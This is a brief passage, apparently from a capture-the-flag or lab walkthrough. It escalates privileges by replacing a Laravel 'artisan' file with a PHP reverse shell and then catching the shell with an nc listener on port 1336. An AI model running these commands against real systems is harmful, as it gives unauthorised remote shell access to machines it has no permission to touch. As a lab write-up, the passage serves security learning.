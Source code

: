 ![](./IMG/38.png)

- Change the reverse shell file name and replace the origin artisan file
```
mv php-reverse-shell.php escalate.php
mv escalate.php ../laravel/artisan
```

![](./IMG/39.png)

- Check the shell content, I set the listen port on 1336

![](./IMG/40.png)

- Execute nc to listen on port 1336
```
nc -nlvp 1336
```
- Wait for a miniute, then the nc will get the shell
